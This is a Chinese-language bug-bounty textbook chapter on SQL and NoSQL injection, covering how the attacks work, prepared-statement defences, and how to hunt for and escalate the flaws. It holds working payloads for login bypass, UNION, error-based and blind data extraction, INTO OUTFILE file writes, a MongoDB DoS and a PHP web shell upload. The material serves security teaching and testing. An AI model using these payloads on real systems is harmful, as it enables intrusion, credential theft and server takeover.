



# 第十一章：SQL 注入


*SQL*是用于查询或修改存储在数据库中的信息的编程语言。*SQL 注入*是一种攻击，攻击者通过在 SQL 语句中插入恶意输入，执行任意 SQL 命令以攻击应用程序的数据库。当 SQL 查询中使用的输入未正确过滤或转义时，就会发生这种情况，这可能导致身份验证绕过、敏感数据泄露、数据库篡改，甚至在某些情况下发生远程代码执行（RCE）。

SQL 注入的数量有所下降，因为现在大多数 Web 框架都有内建机制来防范它们。但它们仍然很常见。如果你能发现 SQL 注入漏洞，它们往往是至关重要的漏洞，会导致高额回报，因此当你开始进行目标漏洞挖掘时，仍然值得留意这些漏洞。本章将讲解如何发现和利用两种类型的 SQL 注入：经典 SQL 注入和盲注 SQL 注入。我们还将讨论 NoSQL 数据库中的注入，NoSQL 数据库是不使用 SQL 查询语言的数据库。

请注意，本章中使用的示例基于 MySQL 语法。注入到其他类型数据库的代码会有所不同，但总体原则是相同的。

## 机制

要理解 SQL 注入，我们首先需要了解 SQL 是什么。*结构化查询语言（SQL）*是一种用于管理和与数据库进行通信的语言。

传统上，*数据库*包含表格、行、列和字段。行和列包含数据，数据存储在单一字段中。假设某个 Web 应用程序的数据库包含一个名为 Users 的表（表 11-1）。该表包含三列：ID、用户名和密码。同时，它也包含三行数据，每行存储着不同用户的凭证。

表 11-1：示例用户数据库表

| **ID** | **用户名** | **密码** |
| --- | --- | --- |
| `1` | *admin* | `t5dJ12rp$fMDEbSWz` |
| `2` | *vickie* | `password123` |
| `3` | *jennifer* | `letmein!` |

SQL 语言通过使用查询帮助你高效地与存储在数据库中的数据进行交互。例如，SQL 的`SELECT`语句可以用来从数据库中检索数据。以下查询将返回数据库中的整个 Users 表：

```
SELECT * FROM Users;
```

该查询将返回 Users 表中所有的用户名：

```
SELECT Username FROM Users;
```

最后，这个查询将返回所有用户名为*admin*的用户：

```
SELECT * FROM Users WHERE Username='admin';
```

有很多方法可以构造与数据库交互的 SQL 查询。你可以从 W3Schools 学习更多关于 SQL 语法的知识，网址是[`www.w3schools.com/sql/default.asp`](https://www.w3schools.com/sql/default.asp)。

### 向 SQL 查询中注入代码

SQL 注入攻击发生在攻击者能够将代码注入到目标 Web 应用程序用来访问其数据库的 SQL 语句中，从而执行攻击者希望执行的任何 SQL 代码。例如，假设一个网站要求用户输入用户名和密码，然后将这些信息插入到 SQL 查询中进行用户登录。以下是用户提交的 POST 请求参数，它们将用于填充 SQL 查询：

```
POST /login
Host: example.com
(POST request body)
username=vickie&password=password123
```

这个 SQL 查询将找到与 POST 请求中提供的用户名和密码匹配的用户 ID。然后，应用程序将登录到该用户的帐户：

```
SELECT Id FROM Users
WHERE Username='vickie' AND Password='password123';
```

那么这里的问题是什么呢？由于用户无法预测其他人的密码，他们应该无法以其他人的身份登录，对吧？问题在于，攻击者可以插入对 SQL 语言有特殊意义的字符，从而干扰查询逻辑。例如，如果攻击者提交以下 POST 请求：

```
POST /login
Host: example.com
(POST request body)
username="admin';-- "&password=password123
```

生成的 SQL 查询将变成这样：

```
SELECT Id FROM Users
WHERE Username='admin';-- ' AND Password='password123';
```

`--`序列表示 SQL 注释的开始，注释部分不会被解释为代码，因此通过在查询的用户名部分添加`--`，攻击者有效地将 SQL 查询的其余部分注释掉。查询变成这样：

```
SELECT Id FROM Users WHERE Username='admin';
```

这个查询将返回管理员用户的 ID，无论攻击者提供的密码是什么。通过将特殊字符注入到 SQL 查询中，攻击者绕过了身份验证，并且可以在不知道正确密码的情况下以管理员身份登录！

身份验证绕过并不是攻击者通过 SQL 注入能够实现的唯一目的。攻击者还可能能够检索他们不应该访问的数据。假设一个网站允许用户通过提供用户名和访问密钥来访问他们的电子邮件列表，以证明身份：

```
GET /emails?username=vickie&accesskey=ZB6w0YLjzvAVmp6zvr
Host: example.com
```

这个 GET 请求可能会生成一个查询，使用以下 SQL 语句：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr';
```

在这种情况下，攻击者可以利用 SQL 查询读取他们不应该能够访问的其他表中的数据。例如，假设他们向服务器发送了以下 HTTP 请求：

```
GET /emails?username=vickie&accesskey="ZB6w0YLjzvAVmp6zvr' 1 UNION SELECT Username, Password FROM Users;-- "
Host: example.com
```

服务器会将原始 SQL 查询转换为如下所示：

```
1 SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'2 UNION 3SELECT Username, Password FROM Users;4-- ;
```

SQL `UNION` 2 操作符将两个不同的`SELECT`语句的结果结合起来。因此，这个查询将结合第一个`SELECT`语句 1 的结果（返回用户的电子邮件），以及第二个`SELECT`语句 3 的结果（如前所述，返回所有用户表中的用户名和密码）。现在，攻击者可以在 HTTP 响应中读取所有用户的用户名和密码！（注意，许多 SQL 注入负载会将注入点 4 之后的内容注释掉，以防止查询的其余部分干扰查询的语法或逻辑。）

SQL 注入不仅限于 `SELECT` 语句。攻击者还可以将代码注入到类似 `UPDATE`（用于更新记录）、`DELETE`（用于删除现有记录）和 `INSERT`（用于在表中创建新条目）等语句中。例如，假设这是用于在目标网站上更新用户密码的 HTTP POST 请求：

```
POST /change_password
Host: example.com
(POST request body)
new_password=password12345
```

网站会根据您的新密码和当前登录用户的 ID 形成一个 `UPDATE` 查询。此查询将更新用户表中 ID 字段等于 2 的行，并将其密码设置为 `password12345`：

```
UPDATE Users**SET** Password='password12345'
WHERE Id = 2;
```

在这种情况下，攻击者可以控制语句的 `SET` 子句，该子句用于指定应更新表中的哪些行。攻击者可以构造一个这样的 POST 请求：

```
POST /change_password
Host: example.com
(POST request body)
new_password="password12345';--"
```

该请求生成以下 SQL 查询：

```
UPDATE Users
SET Password='password12345';-- WHERE Id = 2;
```

该查询中的 `WHERE` 子句指定了应更新的行的条件，但它被注释掉了。数据库会更新表中的所有行，并将用户表中的所有密码更改为 `password12345`。攻击者现在可以使用该密码作为任何用户登录。

### 使用二阶 SQL 注入

到目前为止，我们讨论的 SQL 注入都是一阶 SQL 注入。*一阶 SQL 注入*发生在应用程序直接使用用户提交的输入来构建 SQL 查询时。另一方面，*二阶 SQL 注入*发生在用户输入被存储到数据库中，然后在查询中被不安全地检索和使用。即使应用程序在用户提交输入时正确处理了数据，如果在从数据库检索数据时误将其视为安全数据，这些漏洞仍然可能发生。

例如，考虑一个允许用户通过指定用户名和密码来创建帐户的 Web 应用程序。假设恶意用户提交了以下请求：

```
POST /signup
Host: example.com
(POST request body)
username="vickie' UNION SELECT Username, Password FROM Users;-- 
"&password=password123
```

该请求将用户名 `vickie' UNION SELECT Username, Password FROM Users;--` 和密码 `password123` 提交到 */signup* 端点。`username` POST 请求参数包含一个 SQL 注入负载，这将 `SELECT` 所有用户名和密码，并将它们与数据库查询结果连接起来。

应用程序在提交时正确处理用户输入，使用我将在下一部分中讨论的保护技术。并且字符串 `vickie' UNION SELECT Username, Password FROM Users;--` 被存储到应用程序的数据库中，作为攻击者的用户名。

随后，恶意用户通过以下 GET 请求访问他们的电子邮件：

```
GET /emails
Host: example.com
```

在这种情况下，假设如果用户没有提供用户名和访问密钥，应用程序将从数据库中检索当前登录用户的用户名，并用它来填充 SQL 查询：

```
SELECT Title, Body FROM Emails
WHERE Username='USERNAME'
```

但是攻击者的用户名包含 SQL 代码，这将使 SQL 查询变成以下内容：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT Username, Password FROM Users;--
```

这将返回所有用户名和密码，作为电子邮件标题和正文显示在 HTTP 响应中！

## 防范

由于 SQL 注入对应用程序安全的破坏性极大，你必须采取措施来防止它们。防止 SQL 注入的一种方法是使用预处理语句。*预处理语句*也叫做*参数化查询*，它们几乎可以让 SQL 注入变得不可能。

在深入了解预处理语句如何工作之前，理解 SQL 查询是如何执行的非常重要。SQL 是一种编程语言，而你的 SQL 查询本质上是一个程序。当 SQL 程序到达 SQL 服务器时，服务器会解析、编译并优化它。最后，服务器会执行该程序并返回执行结果（图 11-1）*.* 



图 11-1：SQL 查询的生命周期

当你将用户提供的输入插入到你的 SQL 查询中时，你基本上是在动态地重写你的程序，使用用户的输入。攻击者可以提供干扰程序代码的数据，进而改变其逻辑（图 11-2）。



图 11-2：在编译前将用户输入连接到查询中的 SQL 查询会使数据库将用户输入当作代码处理。

预处理语句的工作原理是确保用户提供的数据不会改变你的 SQL 查询的逻辑。这些 SQL 语句在插入任何用户提供的参数之前会先被发送到 SQL 服务器进行编译。这意味着你不是将完整的 SQL 查询传递给服务器编译，而是首先定义所有 SQL 逻辑，编译它，然后在执行前插入用户提供的参数（图 11-3）。参数插入最终查询后，查询将不会再次被解析和编译。



图 11-3：在编译后将用户输入连接到查询中的 SQL 查询允许数据库区分 SQL 查询的代码部分和数据部分。

任何不在原始语句中的内容都会被视为字符串数据，而不是可执行的 SQL 代码，因此你的 SQL 查询的程序逻辑部分将保持不变。这允许数据库区分 SQL 查询中的代码部分和数据部分，无论用户输入是什么样的。

让我们来看一个如何在 PHP 中安全执行 SQL 语句的示例。假设我们希望通过用户提供的用户名和密码来检索用户的 ID，因此我们想执行以下 SQL 语句：

```
SELECT Id FROM Users
WHERE Username=USERNAME AND Password=PASSWORD;
```

以下是在 PHP 中实现的方法：

```
$mysqli = new mysqli("mysql_host", "mysql_username", "mysql_password", "database_name"); 1
$username = $_POST["username"]; 2
$password = $_POST["password"]; 3
```

在 PHP 中，我们首先与数据库建立连接 1，然后从用户那里通过 POST 参数获取用户名和密码 23*.* 

要使用预处理语句，你需要先定义查询的结构。我们会写出没有参数的查询，并用问号作为参数的占位符：

```
$stmt = $mysqli->prepare(**"SELECT Id FROM Users WHERE Username=? AND Password=?"**);
```

这个查询字符串现在将由 SQL 服务器作为 SQL 代码进行编译。然后，你可以单独发送查询的参数。以下代码行将用户输入插入到 SQL 查询中：

```
$stmt->bind_param("ss", $username, $password);
```

最后，你执行查询：

```
$stmt->execute();
```

用户提供的用户名和密码值不像语句模板那样被编译，并且不会作为 SQL 代码的逻辑部分执行。因此，如果攻击者提供恶意输入，像这样，整个输入将被视为普通数据，而不是 SQL 代码：

```
Password12345';--
```

如何使用预编译语句取决于你用来编写应用程序的编程语言。维基百科提供了一些示例：[`en.wikipedia.org/wiki/Prepared_statement`](https://en.wikipedia.org/wiki/Prepared_statement)*.*

防止 SQL 注入的另一种方法是使用允许值的允许列表。例如，SQL 的`ORDER BY`子句允许查询指定排序结果的列。因此，这个查询将返回我们表中所有用户的电子邮件，并按 Date 列进行降序排序：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr';
ORDER BY Date DESC;
```

如果应用程序允许用户指定一个列来对其电子邮件进行排序，它可以依赖一个允许列表（allowlist）来定义`ORDER BY`子句中的列名，而不是允许用户输入任意内容。例如，应用程序可以只允许`Date`、`Sender`和`Title`这三个值，拒绝所有其他用户输入的值。

最后，你可以小心地清理和转义用户输入。然而，这种方法并非万无一失，因为攻击者可以利用一些特定的字符来构造 SQL 注入攻击，可能会遗漏某些特殊字符。需要清理或转义的特殊字符包括单引号(`'`)和双引号(`"`)，但是每种类型的数据库还有各自特定的特殊字符。有关 SQL 输入清理的更多信息，请阅读 OWASP 的备忘单：[`cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)。

## SQL 注入漏洞猎杀

让我们开始寻找 SQL 注入漏洞！在本章前面提到过，我们可以将 SQL 注入分为第一类和第二类。但在利用 SQL 注入时，还有另一种分类方式：经典 SQL 注入和盲注 SQL。检测和利用这些注入的方式是不同的。

在我们深入讨论每种类型之前，一种常见的检测 SQL 注入的技巧是将单引号字符(`'`)插入到每个用户输入中，查看是否出现错误或其他异常。单引号是 SQL 语句中的特殊字符，用来标示查询字符串的结束。如果应用程序已经保护了 SQL 注入，它应该将单引号视为普通数据，插入单引号到输入字段中不应触发数据库错误，也不应改变数据库查询的逻辑。

另一种常见的 SQL 注入检测方法是 *模糊测试*，即向应用程序提交特别设计的 SQL 注入有效载荷，并监视服务器的响应。我们将在第二十五章讨论这一点。

否则，你可以提交针对目标数据库设计的有效载荷，目的是触发数据库响应中的差异、时间延迟或数据库错误。记住，你需要寻找的线索是你注入的 SQL 代码是否能被执行。

### 第 1 步：查找经典 SQL 注入

*经典 SQL 注入* 是最容易发现和利用的。在经典 SQL 注入中，SQL 查询的结果直接返回给攻击者作为 HTTP 响应。它有两个子类型：基于 UNION 和基于错误。

我们之前的电子邮件示例是基于 UNION 的方法：攻击者使用 `UNION` 运算符将另一个查询的结果连接到 Web 应用程序的响应中：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
UNION SELECT Username, Password FROM Users;-- ;
```

在这种情况下，服务器会在 HTTP 响应中返回所有用户名和密码以及用户*vickie*的电子邮件(表 11-2)。

表 11-2：我们恶意查询所导致的电子邮件

| **标题** | **正文** |
| --- | --- |
| 完成账户设置！ | 请通过提交恢复邮箱地址来完成你的*example.com*账户设置。 |
| 欢迎 | 欢迎使用*example.com*的电子邮件服务 |
| admin | t5dJ12rp$fMDEbSWz |
| vickie | password123 |
| jennifer | letmein! |

另一方面，基于错误的 SQL 注入攻击通过触发数据库中的错误来收集返回的错误消息中的信息。例如，我们可以通过使用 MySQL 中的 `CONVERT()` 函数来诱发错误：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
UNION SELECT 1,
CONVERT((SELECT Password FROM Users WHERE Username="admin"), DATE); –-
```

`CONVERT(``VALUE``, ``FORMAT``)` 函数尝试将 `VALUE` 转换为由 `FORMAT` 指定的格式。因此，这个查询将迫使数据库将管理员的密码转换为 `date` 格式，这有时会导致数据库抛出像这样的描述性错误：

```
Conversion failed when trying to convert "t5dJ12rp$fMDEbSWz" to data type "date".
```

数据库抛出描述性错误，帮助开发人员定位问题，但如果错误消息也显示给普通用户，可能会无意间向外部泄露信息。在这个例子中，数据库指出它未能将字符串值 `"t5dJ12rp$fMDEbSWz"` 转换为 `date` 格式。但是 `t5dJ12rp$fMDEbSWz` 是管理员账户的密码！通过显示描述性错误消息，数据库无意中泄露了一个敏感信息。

### 第 2 步：查找盲注 SQL 注入

盲注 SQL 注入，也叫做*推理 SQL 注入*，稍微难以检测和利用。它发生在攻击者无法直接从数据库中提取信息时，因为应用程序不返回 SQL 数据或描述性错误消息。在这种情况下，攻击者可以通过向服务器发送 SQL 注入有效载荷并观察其随后的行为来推测信息。盲注 SQL 注入有两个子类型：基于布尔值和基于时间的。

*基于布尔值的 SQL 注入* 发生在攻击者通过向 SQL 查询中注入测试条件来推测数据库结构时，这些测试条件会返回 `true` 或 `false`。攻击者可以利用这些响应慢慢推断出数据库的内容。例如，假设 *example.com* 维护了一个独立的表格来跟踪平台上的高级会员。高级会员可以访问高级功能，并且他们的主页会显示 `欢迎，高级会员！` 横幅。该站点通过使用包含用户 ID 的 cookie，并将其与已注册的高级会员表格进行匹配，来判断谁是高级会员。包含此类 cookie 的 GET 请求可能如下所示：

```
GET /
Host: example.com
Cookie: user_id=2
```

应用程序使用此请求生成以下 SQL 查询：

```
SELECT * FROM PremiumUsers WHERE Id='2';
```

如果这个查询返回数据，用户就是高级会员，并且会显示 `欢迎，高级会员！` 横幅。否则，横幅不会显示。假设你的账号不是高级会员。如果你提交这个用户 ID 会发生什么？

```
2' UNION SELECT Id FROM Users
WHERE Username = 'admin'
and SUBSTR(Password, 1, 1) ='a';--
```

那么，查询将变为以下形式：

```
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT Id FROM Users
WHERE Username = 'admin'
and 1SUBSTR(Password, 1, 1) = 'a';--
```

`SUBSTR(``STRING``,` `POSITION``,` `LENGTH``)` 函数从指定的 `STRING` 中提取一个子字符串，长度为指定的 `LENGTH`，并从指定的 `POSITION` 开始。因此，`SUBSTR(Password, 1, 1)` 返回每个用户密码的第一个字符。由于用户 2 不是高级会员，是否返回数据取决于第二个 `SELECT` 语句，如果管理员账号的密码以 `a` 开头，这个查询会返回数据。这意味着你可以暴力破解管理员的密码；如果你将这个用户 ID 作为 cookie 提交，当管理员账户的密码以 `a` 开头时，网页应用会显示高级会员横幅。你可以继续尝试使用字母 `b`、`c` 等，直到成功。

你可以使用这个技术从数据库中提取关键信息，例如数据库版本、表名、列名和凭证。我在第 201 页的“升级攻击”中讲得更详细。

*基于时间的 SQL 注入* 类似于此，但攻击者不是依赖于网页应用中的视觉提示，而是通过不同的 SQL 注入负载引起的响应时间差异。例如，如果我们前面提到的注入点没有返回任何关于查询结果的视觉线索，可能会发生什么？假设高级会员不会得到特别的横幅，他们的用户界面看起来也没有什么不同。那么在这种情况下你如何利用 SQL 注入？

在许多数据库中，你可以通过使用 SQL 查询触发时间延迟。如果出现时间延迟，你就知道查询已正确执行。试着在 SQL 查询中使用 `IF` 语句：

```
IF(CONDITION, IF-TRUE, IF-FALSE)
```

例如，假设你提交以下 ID：

```
2' UNION SELECT
IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
Password FROM Users
WHERE Username = 'admin';
```

SQL 查询将变为以下形式：

```
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT
IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
Password FROM Users
WHERE Username = 'admin';
```

MySQL 中的`SLEEP(``SECONDS``)`函数将在响应中创建指定秒数的时间延迟。如果管理员的密码以`a`字符开头，这个查询将指示数据库休眠 10 秒钟。通过这种技术，你可以慢慢找出管理员的密码。

### 步骤 3：通过 SQL 注入泄露信息

假设你攻击的 web 应用程序不会立即将你的输入用于 SQL 查询。相反，它会在后台操作中不安全地使用这些输入，在这种情况下，你无法通过 HTTP 响应来获取注入的结果，或者通过观察服务器的行为推测查询的结果。有时，提交负载和负载在不安全查询中使用之间甚至会有时间延迟，因此你无法立即观察到应用程序行为的差异。

在这种情况下，你需要让数据库在运行不安全的 SQL 查询时将信息存储在某个地方。在 MySQL 中，`SELECT...INTO`语句告诉数据库将查询的结果存储在本地机器的输出文件中。例如，以下查询将导致数据库将管理员的密码写入*/var/www/html/output.txt*，该文件位于目标 web 服务器的网页根目录下：

```
SELECT Password FROM Users WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'
```

我们将文件上传到*/var/www/html*目录，因为这是许多 Linux web 服务器的默认网页目录。然后，你可以通过访问目标的*/output.txt*页面轻松获取信息：*https://example.com/output.txt*。这种技术也是检测二次 SQL 注入的一个好方法，因为在二次 SQL 注入中，恶意输入和 SQL 查询执行之间通常会有时间延迟。

让我们将这个信息放在上下文中。假设当你浏览*example.com*时，应用程序将你添加到一个数据库表中，以跟踪当前活动的用户。访问带有 cookie 的页面，如下所示

```
GET /
Host: example.com
Cookie: user_id=2, username=vickie
```

将导致应用程序将你添加到一个活动用户表中。在这个示例中，ActiveUsers 表只包含两列：一列是用户 ID，另一列是登录用户的用户名。应用程序使用`INSERT`语句将你添加到 ActiveUsers 表中。`INSERT`语句将带有指定值的一行插入到指定的表中：

```
INSERT INTO ActiveUsers
VALUES ('2', 'vickie');
```

在这种情况下，攻击者可以精心构造一个恶意 cookie，将其注入到`INSERT`语句中：

```
GET /
Host: example.com
Cookie: 1user_id="2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ", username=vickie
```

这个 cookie 1 将导致`INSERT`语句将管理员的密码保存到受害者服务器上的*output.txt*文件中：

```
INSERT INTO ActiveUsers
VALUES ('2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ', 'vickie');
```

最终，你会发现管理员账号的密码存储在目标服务器的*output.txt*文件中。

### 步骤 4：寻找 NoSQL 注入

数据库并不总是使用 SQL。*NoSQL*，即 *Not Only SQL*（不仅仅是 SQL），是指那些不使用 SQL 语言的数据库。与 SQL 数据库（它们将数据存储在表格中）不同，NoSQL 数据库将数据存储在其他结构中，如键值对和图形。NoSQL 查询语法是特定于数据库的，查询通常用应用程序的编程语言编写。现代的 NoSQL 数据库，如 MongoDB、Apache CouchDB 和 Apache Cassandra，也容易受到注入攻击。随着 NoSQL 的流行，这些漏洞变得越来越常见。

以 MongoDB 为例。在 MongoDB 语法中，`Users.find()` 返回符合某个条件的用户。例如，以下查询返回用户名为 `vickie` 且密码为 `password123` 的用户：

```
Users.find({username: 'vickie', password: 'password123'});
```

如果应用程序使用此功能登录用户，并且直接用用户输入填充数据库查询，如下所示：

```
Users.find({username: $username, password: $password});
```

攻击者可以提交密码 `{$ne: ""}` 来以任何身份登录。例如，假设攻击者提交了用户名 `admin` 和密码 `{$ne: ""}`。数据库查询将变成如下：

```
Users.find({username: 'admin', password: {$ne: ""}});
```

在 MongoDB 中，`$ne` 用于选择那些值不等于指定值的对象。在这里，查询将返回用户名为 `admin` 且密码不为空字符串的用户，除非管理员的密码为空！因此，攻击者可以绕过身份验证并访问管理员账户。

向 MongoDB 查询中注入代码还可以让攻击者在服务器上执行任意 JavaScript 代码。在 MongoDB 中，`$where`、`mapReduce`、`$accumulator` 和 `$function` 操作允许开发者运行任意 JavaScript 代码。例如，你可以在 `$where` 操作符中定义一个函数来查找名为 `vickie` 的用户：

```
Users.find( { $where: function() { return (this.username == 'vickie') } } );
```

假设开发者允许在此函数中使用未经验证的用户输入，并利用该输入来获取账户数据，如下所示：

```
Users.find( { $where: function() { return (this.username == $user_input) } } );
```

在这种情况下，攻击者可以通过将任意 JavaScript 代码注入到 `$where` 操作中来执行该代码。例如，以下恶意代码段将通过触发一个永无止境的 `while` 循环来发起拒绝服务（DoS）攻击：

```
Users.find( { $where: function() { return (this.username == 'vickie'; while(true){};) } } );
```

寻找 NoSQL 注入的过程类似于检测 SQL 注入。你可以将特殊字符如引号（`' "`）、分号（`;`）、反斜杠（`\`），以及括号（`()`）、中括号（`[]`）和大括号（`{}`）插入到用户输入字段中，并查找错误或其他异常情况。你也可以通过使用工具 NoSQLMap ([`github.com/codingo/NoSQLMap/`](https://github.com/codingo/NoSQLMap/)) 来自动化搜索过程。

开发者可以通过验证用户输入并避免使用危险的数据库功能来防止 NoSQL 注入攻击。在 MongoDB 中，你可以通过在命令行中使用 `--noscripting` 选项，或者在配置文件中将 `security.javascriptEnabled` 标志设置为 `false` 来禁用服务器端 JavaScript 的运行。更多信息请参考 [`docs.mongodb.com/manual/faq/fundamentals/index.html`](https://docs.mongodb.com/manual/faq/fundamentals/index.html)。

此外，在为应用程序分配权限时，你应该遵循 *最小权限原则*。这意味着应用程序应仅以其正常运行所需的权限运行。例如，当一个应用程序只需要读取文件时，就不应该授予任何写入或执行权限。这将降低攻击中完全系统被攻破的风险。

## 提升攻击

攻击者通常使用 SQL 注入来从数据库中提取信息。成功地从 SQL 注入中收集数据是一项技术任务，有时可能会很复杂。以下是一些可以用来收集目标信息以进行利用的提示。

### 了解数据库

首先，了解数据库结构是非常有用的。注意，在本章中我使用的许多有效载荷都需要对数据库有所了解，例如表名和字段名。

首先，你需要确定数据库软件及其结构。尝试一些试探性的 SQL 查询来确定数据库版本。每种类型的数据库都有不同的函数来返回其版本号，但查询看起来应该像这样：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, @@version;--
```

一些常见的查询版本类型的命令包括：`@@version` 用于 Microsoft SQL Server 和 MySQL，`version()` 用于 PostgreSQL，`v$version` 用于 Oracle。在 `UNION SELECT 1,` `DATABASE_VERSION_QUERY``;--` 这一行中的 `1` 是必要的，因为要使 `UNION` 语句正常工作，它连接的两个 `SELECT` 语句需要有相同数量的列。第一个 `1` 本质上是一个占位符列名，可以用来匹配列的数量。

一旦你了解了你所使用的数据库类型，你可以进一步查看它包含的内容。以下是 MySQL 查询，它将显示用户自定义表的表名：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, table_name FROM information_schema.tables
```

这个查询将显示指定表的列名。在这种情况下，查询将列出 `Users` 表中的列：

```
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, column_name FROM information_schema.columns
WHERE table_name = 'Users'
```

所有这些技术在经典攻击和盲注攻击中都可以使用。你只需要找到不同的方式将这些命令嵌入到你构造的查询中。例如，你可以使用基于时间的技术来确定数据库的版本，方法如下：

```
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT IF(SUBSTR(@@version, 1, 1) = '1', SLEEP(10), 0); --
```

在了解了数据库结构之后，开始针对特定的表进行数据提取，获取你感兴趣的信息。

### 获取 Web Shell

提升 SQL 注入攻击的一种方法是尝试在服务器上获得 Web shell。假设我们正在攻击一个 PHP 应用程序。以下这段 PHP 代码会获取名为 `cmd` 的请求参数，并将其作为系统命令执行：

```
<? system($_REQUEST['cmd']); ?>
```

你可以利用 SQL 注入漏洞，通过 `INTO OUTFILE` 将这段 PHP 代码上传到服务器上你可以访问的位置。例如，你可以将不存在用户的密码和 PHP 代码 `<? system($_REQUEST['cmd']); ?>` 写入位于目标服务器 */var/www/html/shell.php* 的文件中：

```
SELECT Password FROM Users WHERE Username='abc'
UNION SELECT "<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

由于不存在的用户的密码为空，因此实际上你是在上传 *shell.php* 文件中的 PHP 脚本。然后，你可以直接访问 *shell.php* 文件并执行任何你希望的命令：

```
http://www.example.com/shell.php?cmd=`COMMAND`
```

## 自动化 SQL 注入攻击

手动测试 SQL 注入是不可扩展的。我建议使用工具帮助你自动化本章中描述的整个过程，从 SQL 注入发现到利用。例如，sqlmap（[`sqlmap.org/`](http://sqlmap.org/)）是一个用 Python 编写的工具，自动化了检测和利用 SQL 注入漏洞的过程。sqlmap 的完整教程超出了本书的范围，但你可以在 [`github.com/sqlmapproject/sqlmap/wiki/`](https://github.com/sqlmapproject/sqlmap/wiki/) 找到它的文档。

在开始用 sqlmap 自动化攻击之前，确保你理解它的每种技术，以便优化你的攻击。它使用的大部分技术将在本章中介绍。你可以将 sqlmap 作为独立工具使用，或者将其与正在使用的测试代理集成。例如，你可以通过安装 SQLiPy Burp 插件，将 sqlmap 集成到 Burp 中。

## 发现你的第一个 SQL 注入！

SQL 注入是一个令人兴奋的漏洞，值得发现和利用，因此你可以开始在实践应用程序或漏洞赏金项目中寻找它。由于 SQL 注入有时很难利用，如果你愿意，可以从攻击像“极度脆弱的 Web 应用程序”（Damn Vulnerable Web Application）这样的故意脆弱应用程序开始练习。你可以在 [`www.dvwa.co.uk/`](http://www.dvwa.co.uk/) 找到它。然后，按照这张路线图开始在真实环境中寻找 SQL 注入漏洞：

1.  映射应用程序的任何接受用户输入的端点。

1.  将测试负载插入这些位置，以发现它们是否容易受到 SQL 注入攻击。如果该端点不容易受到经典的 SQL 注入攻击，可以尝试推理技术。

1.  一旦确认端点容易受到 SQL 注入攻击，就可以使用不同的 SQL 注入查询从数据库中泄露信息。

1.  升级问题。找出你能从该端点泄露哪些数据，并判断是否能够实现认证绕过。小心不要执行任何可能破坏目标数据库完整性的操作，如删除用户数据或修改数据库结构。

1.  最后，草拟你的第一份 SQL 注入报告，提供一个示例有效载荷，供安全团队用来复制你的结果。因为 SQL 注入大多数时候利用起来相当技术性，花时间制作一个易于理解的概念验证是个好主意。
